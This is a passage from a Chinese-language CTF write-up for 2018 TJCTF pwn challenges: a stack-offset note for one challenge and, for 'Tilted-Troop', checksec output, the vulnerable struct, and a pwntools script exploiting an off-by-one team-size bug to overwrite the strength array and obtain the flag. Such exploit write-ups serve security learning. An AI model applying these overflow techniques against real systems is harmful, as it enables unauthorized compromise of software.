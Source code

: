 事实上看ida可以知道v43处于ebp-0xc的位置，只有在输入v30的时候允许最长长度为64的字符串，而v30处于ebp-0x44，v30和v43相距56，所以覆盖点在v30。

精致的输入如下

![](http://wx3.sinaimg.cn/mw690/0060lm7Tly1fu5r6kglynj30so08ejtc.jpg)

<br>

### Tilted-Troop(points: 40)

首先看下开了什么保护，发现全开了:-(

```shell
▶ checksec strover 
[*] '/2018TJCTF/pwn-Tilted-Troop40/strover'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

给了源码，那就不费那劲看伪代码了，程序流程就是组个队打怪，如果最后队伍的队员力量值和等于400，拿到flag。

这里有个bug就是一个队伍里最大队员数只有8个，但是由于逻辑有bug导致我们能输入9个队员的信息。因为队员的名字和力量的地址是在内存中是连续的，如下图。所以第九个队员的name会把strength数组覆盖，那么我们就可以精确控制第九个队员的name覆盖strength数组使得队员的力量值和为400。

```c
#define MAX_TEAM_SIZE 8

const int goal = 400;

struct team {
    char* names[MAX_TEAM_SIZE];
    char* strength;
    int teamSize;
} typedef team;

```

exp如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
from sys import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c' ]

if argv[1] == 'l':
	io = process('./strover')
else:
	io = remote('problem1.tjctf.org', 8002)

for i in range(8):
	io.sendline("A "+str(i)*4)

io.sendline( "A " + chr(400/4)*4 )
io.sendline("F")

io.interactive()
```
